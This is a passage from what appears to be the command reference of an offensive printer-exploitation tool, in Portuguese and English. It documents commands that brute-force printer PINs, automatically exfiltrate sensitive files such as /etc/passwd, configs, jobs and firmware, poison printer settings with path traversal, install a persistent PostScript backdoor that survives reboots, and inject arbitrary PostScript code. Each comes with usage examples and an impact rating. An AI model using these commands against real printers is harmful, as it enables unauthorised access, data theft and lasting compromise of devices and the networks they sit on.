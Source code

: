 ```bash
unlock_bruteforce        # Testar todos os PINs
unlock_bruteforce 1000   # Começar do PIN 1000
```

#### 10. `exfiltrate`
**Função**: Exfiltração automatizada de arquivos sensíveis  
**Impacto**: CRÍTICO - Mass data extraction  
**Paths**: ~18 caminhos comuns testados

```bash
exfiltrate  # Auto-exfiltra configs, jobs, etc/passwd, firmware
```

#### 11. `poison`
**Função**: Configuration poisoning  
**Impacto**: ALTO - Compromete segurança da impressora  
**Variáveis**: 9 variáveis maliciosas

```bash
poison  # Seta configs maliciosas (path traversal, logging, etc)
```

---

### 🔓 Persistence & Code Execution (3 comandos)

#### 12. `backdoor [ps_file]`
**Função**: Instalar backdoor PostScript persistente  
**Impacto**: EXTREMO - Acesso persistente + exfiltração  
**Persistência**: Sobrevive a reboots

```bash
backdoor              # Instalar backdoor padrão (logging)
backdoor custom.ps    # Instalar backdoor customizado
backdoor_remove       # Remover backdoor
```

#### 13. `ps_inject <ps_file>`
**Função**: Injetar e executar código PostScript  
**Impacto**: CRÍTICO - Execução de código arbitrário

```bash
ps_inject exploit.ps  # Executar código PostScript
```

---

### 📊 Information Gathering (3 comandos)

#### 14. `info [category]`
**Função**: Query comprehensive de todas categorias INFO  
**Categorias**: 9 (ID, STATUS, CONFIG, FILESYS, MEMORY, etc)

```bash
info              # Query todas categorias
info CONFIG       # Query apenas CONFIG
```
